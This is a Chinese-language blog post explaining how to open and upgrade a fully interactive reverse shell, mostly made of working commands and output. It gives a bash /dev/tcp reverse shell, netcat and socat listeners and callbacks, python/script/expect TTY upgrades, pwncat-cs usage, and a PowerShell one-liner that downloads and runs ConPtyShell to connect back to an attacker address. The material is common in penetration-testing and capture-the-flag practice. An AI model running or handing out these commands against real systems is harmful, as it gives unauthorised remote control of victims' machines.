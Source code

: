 ```yaml
---
layout: post
title: Get a Fully Interactive Reverse Shell
category: Linux
tags: [reverse shell, tty, pty, socat]
---
```


## Reverse Shell (semi-interactive shell)

一般反弹 shell 的命令：

```console
[root@centos ~]# /bin/bash -i >& /dev/tcp/192.168.10.11/4444 0>&1
```

接收到半交互式的 shell：

```console
kali@kali:~$  nc -lvnp 4444
Listening on 0.0.0.0 4444
[root@centos ~]# tty
tty
not a tty

[root@centos ~]#
```

当前获取到的 reverse shell 还存在诸多限制，如：无法使用 top 这类命令，ctrl+c 会中断整个 reverse shell 等。

## Upgrade Reverse Shell

TTY 是英文 Teletype 的缩写，译为电传打字机，简称电传。现在通常泛指类 Unix 操作系统中的虚拟控制台。

PTY（Pseudo-TTY，伪终端），由 pts (pseudo-terminal slave) 与 ptmx (pseudo-terminal master) 实现。

### Spawn a TTY shell

在 reverse shell 中，使用 python 的 pty 模块，将当前 non-TTY shell 升级成一个 TTY shell：

```console
[root@centos ~]# tty
tty
not a tty

[root@centos ~]# python -c 'import pty;pty.spawn("/bin/bash")';
python -c 'import pty;pty.spawn("/bin/bash")';
[root@centos ~]# tty
tty
/dev/pts/8
```

> 注：无论 python2 和 python3 都可以使用该命令。

如果目标主机中，没有安装 python 环境。也可以使用 script 命令获取到一个 TTY shell：

```console
[root@centos ~]# /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
[root@centos ~]# tty
tty
/dev/pts/9
```

使用 expect 命令也能获取到 TTY shell，但该命令在大多 Linux 主机上需要额外安装：

```console
[root@centos ~]# expect -c 'spawn bash;interact'
expect -c 'spawn bash;interact'
spawn bash
[root@centos ~]# tty
tty
/dev/pts/11
```

现在已经解决了因为没有 TTY 而导致一些命令不能使用的问题了。

但在使用时，依然存在一些 “问题”，如：会将用户输入的字符串进行回显、不能用 tab 补齐命令、按 ctrl+c 会直接退出 reverse shell 等。

### Upgrade to Full Interactive Shell

先按 ctrl+z 将 reverse shell 发送到后台，设置当前的 shell 通过 reverse shell 来发送控制字符和其他原始输入：

```console
[root@centos ~]# ^Z
[1]+  Stopped                 nc -lvnp 4444
kali@kali:~$ stty size
46 77
kali@kali:~$ stty raw -echo
```

再输入命令 fg，将 reverse shell 返回到前台，接着在目标机器上进行以下设置：

```console
kali@kali:~$ jobs -l
[1]+ 1161146 Stopped                 nc -lvnp 4444
kali@kali:~$ fg 1

[root@centos ~]# export SHELL=bash
[root@centos ~]# export TERM=xterm-256color
[root@centos ~]# stty rows 46 columns 77
[root@centos ~]# reset
```

此时的终端，就和 SSH 连接上的一样了。无论是执行或者中断命令，还是在 vim 中都不会有任何问题了。

## Using socat

使用 socat 可以直接弹回来一个带有 TTY 的完全交互式 shell。

二进制文件下载地址：[https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

---

开启监听：

```console
kali@kali:~$ socat file:`tty`,raw,echo=0 tcp-listen:4444

[root@centos ~]# tty
/dev/pts/10
```

执行 reverse shell 命令：

```console
[root@centos ~]# socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.10.11:4444
```

## Using pwncat-cs

使用 [pwncat-cs](https://github.com/calebstewart/pwncat) 可以自动处理接收到的反弹 shell，尝试生成一个伪终端（pty）以进行完整的交互式会话。

```console
kali@kali:~$ pipx install pwncat-cs
kali@kali:~$ pwncat-cs --download-plugins
kali@kali:~$ pwncat-cs -lp 1234
[13:27:35] Welcome to pwncat 🐈!                                                                    __main__.py:164
bound to 0.0.0.0:1234 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[13:28:35] received connection from xx.xx.xx.xx:51758                                                     bind.py:84
[13:28:36] xx.xx.xx.xx:51758: registered new host w/ db                                               manager.py:957
(local) pwncat$ back
(remote) [root@centos ~]# tty
/dev/pts/6
(remote) [root@centos ~]# Ctrl+D
(local) pwncat$
```

## Using ConPtyShell

如果目标主机是 Windows 操作系统，可以使用 [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) 快速获得一个完全交互式 Shell。

开启监听：

```console
kali@kali:~$ stty raw -echo; (stty size; cat) | nc -lvnp 1234
```

执行 Reverse Shell 命令：

```console
PS C:\> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 172.25.68.38 1234

CreatePseudoConsole function found! Spawning a fully interactive shell
```

之后 Kali 上会收到一个完整的 Shell：

```
Windows PowerShell
版权所有（C） Microsoft Corporation。保留所有权利。

安装最新的 PowerShell，了解新功能和改进！https://aka.ms/PSWindows

PS C:\> whoami
...
```

## References

- Unix 终端系统（TTY）是如何工作的 | Shall We Code?  
  [https://waynerv.com/posts/how-tty-system-works/](https://waynerv.com/posts/how-tty-system-works/)
- Upgrade a linux reverse shell to a fully usable TTY shell  
  [https://zweilosec.github.io/posts/upgrade-linux-shell/](https://zweilosec.github.io/posts/upgrade-linux-shell/)
- Full TTYs - HackTricks  
  [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
- How to Get a Fully Interactive Reverse Shell  
  [https://fahmifj.medium.com/get-a-fully-interactive-reverse-shell-b7e8d6f5b1c1](https://fahmifj.medium.com/get-a-fully-interactive-reverse-shell-b7e8d6f5b1c1)
